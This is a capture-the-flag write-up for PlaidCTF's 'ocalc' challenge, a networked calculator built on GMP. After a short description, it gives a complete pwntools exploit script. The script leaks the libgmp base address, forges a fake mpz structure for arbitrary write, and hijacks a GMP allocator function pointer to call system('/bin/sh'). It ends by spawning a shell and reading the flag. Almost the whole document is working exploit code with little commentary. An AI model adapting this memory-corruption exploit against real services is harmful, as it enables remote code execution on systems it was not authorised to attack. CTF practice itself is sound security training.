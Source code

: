 * Description
[[file:clipboard-20250406T134136.png]]

You try to get the grit out of your eyes as you total up your bounty earnings. As you type in the
last couple of numbers, your finger slips. The ~nc ocalc.chal.pwni.ng 1337~ blows up in your hands. 

https://plaidctf.com/files/distribute.425c426edff57a33188a9da280e58cae1f98bfa9d7034343ea7d6d4dc90f2b0f.tgz


* Solution

#+begin_src python :results output
#!/usr/bin/env python3
#
# @mebeim - 2025-04-06
#

from pwn import *


context(arch='amd64')
libgmp = ELF('libgmp.so.10.5.0', checksec=False)

if args.REMOTE:
	r = remote('ocalc.chal.pwni.ng', 1337)
else:
	r = remote('localhost', 1337)

input('?')

for i in range(60):
	r.sendlineafter(b'@ ', b'1 1 1 2 amax')
r.sendlineafter(b'@ ', b'drop ' * 76)

leak = int(r.recvline().split()[-1])
log.success('Leak: 0x%x', leak)

libgmp.address = leak + 0x202d30
system = libgmp.address + 0xc5b7e
assert libgmp.address & 0xfff == 0x000

log.success('=> libgmp          @ 0x%x', libgmp.address)
log.success('=> __gmp_free_func @ 0x%x', libgmp.sym.__gmp_free_func)
log.success('=> system          @ 0x%x', system)

r.sendlineafter(b'@ ', b'drop ' * 44)

big = '0x' + '7000000000000000' * 3
for i in range(113):
	if i % 2 == 0:
		r.sendlineafter(b'@ ', b'7 7 7 2 amax')
	else:
		r.sendlineafter(b'@ ', f'{big} 7 7 2 amax'.encode())

# [1]->_mp_d now overlaps with [212]: set it up for arb r/w
#     _mp_alloc = 3
#     _mp_size = 3
#     _mp_d = &__gmp_free_func

chain = flat([
	0, # leave __gmp_default_free as is
	system - libgmp.sym.__gmp_default_reallocate,
	0, # leave __gmp_default_allocate as is
][::-1], endian='big')

sz = len(chain) // 8
fake_mpz = f'{libgmp.sym.__gmp_free_func:#x}{sz:08x}{sz:08x}'

log.info('Writing fake mpz: %s', fake_mpz)
r.sendlineafter(b'@ ', b'drop')
r.sendlineafter(b'@ ', f'{fake_mpz} +'.encode())

# input('check...')
# r.interactive()

log.info('Writing chain: %s', chain.hex())
r.sendlineafter(b'@ ', b'drop ' * 211)
r.sendlineafter(b'@ ', f'0x{chain.hex()} +'.encode())

binsh = int.from_bytes(b'/bin/sh\0', 'little')
bullshit = b'0x4141414141414141 0x424242424242442 '
bullshit += b'0x3333333333333333 0x4444444444444444444444444444444444 '
bullshit += f'{binsh:#x} 3 amax'.encode()

# Trigger free
r.sendlineafter(b'@ ', bullshit)
r.sendline(b'cat flag\n' * 10)

r.interactive()
#+end_src
